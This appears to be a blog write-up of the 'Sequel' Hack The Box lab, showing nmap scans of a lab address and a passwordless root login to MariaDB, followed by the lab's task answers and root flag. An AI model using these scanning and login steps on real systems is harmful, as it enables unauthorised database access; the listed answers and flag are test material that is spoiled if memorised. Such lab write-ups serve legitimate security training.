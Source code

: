 ```yaml
---
layout: single
title: Sequel - Hack The Box
excerpt: "In this machine we are taking advantage of misconfigured MariaDB server credentials."
date: 2025-03-10
classes: wide
header:
  teaser: /img2/sequel.png
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Linux
  - Very Easy
tags:
  - MariaDB
---
```



![](/img2/Pasted%20image%2020250310111555.png)

## Introduction

> In this machine we are taking advantage of misconfigured MariaDB server credentials.

## Reconnaissance

- Connectivity

```bash
ping -c1 10.129.235.41
```

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.129.235.41
```

![](/img2/Pasted%20image%2020250310112055.png)

- Check MySQL version with nmap

```bash
nmap -sV -sC -p3306 10.129.235.41
```

![](/img2/Pasted%20image%2020250310112600.png)

## Exploitation

```bash
mysql -h 10.129.235.41 -u root --ssl=OFF

```
![](/img2/Pasted%20image%2020250310114129.png)

## Tasks

1. During our scan, which port do we find serving MySQL
> 3306

2. What community-developed MySQL version is the target running?
> MariaDB

3. When using the MySQL command line client, what switch do we need to use in order to specify a login username?
> -u 

4. Which username allows us to log into this MariaDB instance without providing a password?
> root

5. In SQL, what symbol can we use to specify within the query that we want to display everything inside a table?
> *

6. In SQL, what symbol do we need to end each query with?
> ;

7. There are three databases in this MySQL instance that are common across all MySQL instances. What is the name of the fourth that's unique to this host?
> htb

8. Submit root flag
> 7b4bec00d1a39e3dd4e021ec3d915da8

![](/img2/Pasted%20image%2020250310114524.png)

